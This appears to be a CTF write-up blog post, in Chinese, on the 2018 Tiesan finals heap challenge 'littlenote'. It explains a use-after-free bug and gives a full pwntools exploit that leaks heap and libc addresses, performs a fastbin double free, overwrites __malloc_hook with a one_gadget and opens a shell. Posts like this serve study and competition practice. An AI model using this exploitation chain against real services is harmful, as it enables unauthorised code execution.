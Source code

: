 ```yaml
---
title: 2018铁三总决赛_littlenote
date: 2018-12-07 22:50:23
tags:
---
```

little note 常规heap
<!--more-->
# start
比较常规的堆题
[附件][1]
# 漏洞点
```arm
    if ( note[idx] )
      free((void *)note[idx]);
    puts("Done");
```
主要漏洞是uaf
`free`后没有清空指针

没有什么特别多的限制当时写的现在忘得差不多了...
大致回忆一下:
* uaf to control fd 
* overlap
* modify the size 
* free chunk to get libcbase_address
* uaf to control __malloc_hook


# exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("choice",str(c))
def add(c='\x00',mode='Y'):
	cmd(1)
	p.sendafter("note\n",c)
	p.sendlineafter("note?\n",mode)
def free(idx):
	cmd(3)
	p.sendlineafter("delete?\n",str(idx))
def show(idx):
	cmd(2)
	p.sendlineafter("show?\n",str(idx))
	
p=process("./littlenote")
#p=remote("202.0.1.70",40001)
context.log_level='debug'
binary=ELF('./littlenote')
add()#0
add()#1
free(1)
free(0)
show(0)
heap=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x555555757070-0x0000555555757000)
log.warning(hex(heap))
free(1)
add('\x10')#2
add(p64(0)+p64(0x71))#3
add(p64(0x21)*12)
add()#5
free(3)
add(p64(0)+p64(0x91))#6
free(5)
show(5)
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7dd1b78-0x00007ffff7a0d000)
log.warning(hex(base))
add()#7
add()#8
free(7)
free(8)
free(7)
libc=ELF("./libc.so.6")
libc.address=base
add(p64(libc.symbols['__malloc_hook']-35))
add()
add()
one=0xf02a4+base
add("\x00"*19+p64(one))
cmd(1)
p.interactive()
```


[1]:https://github.com/n132/Watermalon/tree/master/Tiesan_2018